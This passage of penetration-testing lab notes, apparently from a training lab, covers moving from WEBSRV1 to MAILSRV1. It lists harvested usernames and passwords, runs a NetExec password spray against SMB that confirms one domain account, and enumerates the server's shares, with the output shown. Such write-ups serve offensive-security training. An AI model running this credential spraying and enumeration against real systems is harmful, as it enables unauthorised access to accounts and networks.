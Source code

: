 > Once privs are elevated, running linpeas again might yield more results now we're root


# Access to Internal

### MAILSRV1 - 242

As we've gotten a foothold and gathered creds on WEBSRV1, we can attempt to gain a foothold on MAILSRV1

#### Domain Creds

Should be crafting separate files for usernames and passwords
```bash
cat unames.txt
	daniela
	marcus
	offsec
	john

cat pws.txt
	tequiromucho
	DanielKeyboard3311
	dqsTwTpZPn#nL
```

- Re-consult ports for entry
```bash
25 - smtp
80 - http
110 - pop3
135 - rpc
139 - netbios
143 - imap
445 - smb
587 - smtp
```

- Attempt cred cracking SMB
```bash
nxc smb 192.168.216.242 -u unames.txt -p pws.txt --continue-on-success
	SMB         192.168.216.242 445    MAILSRV1         [*] Windows Server 2022 Build 20348 x64 (name:MAILSRV1) (domain:beyond.com) (signing:False) (SMBv1:False)
	... 
	SMB         192.168.216.242 445    MAILSRV1         [+] beyond.com\john:dqsTwTpZPn#nL
```
	- Gives us the domain -> beyond.com
	- creds we got for john work
		- Not admin as there's no 'Pwn3d!'

- Attempt to further enumerate SMB
```bash
nxc smb 192.168.174.242 -u john -p dqsTwTpZPn#nL --shares             
	SMB         192.168.174.242 445    MAILSRV1         [*] Windows Server 2022 Build 20348 x64 (name:MAILSRV1) (domain:beyond.com) (signing:False) (SMBv1:False)                                                                                                                         
	SMB         192.168.174.242 445    MAILSRV1         [+] beyond.com\john:dqsTwTpZPn#nL 
	SMB         192.168.174.242 445    MAILSRV1         [*] Enumerated shares
	SMB         192.168.174.242 445    MAILSRV1         Share           Permissions     Remark
	SMB         192.168.174.242 445    MAILSRV1         -----           -----------     ------
	SMB         192.168.174.242 445    MAILSRV1         ADMIN$                          Remote Admin
	SMB         192.168.174.242 445    MAILSRV1         C$                              Default share
	SMB         192.168.174.242 445    MAILSRV1         IPC$            READ            Remote IPC
```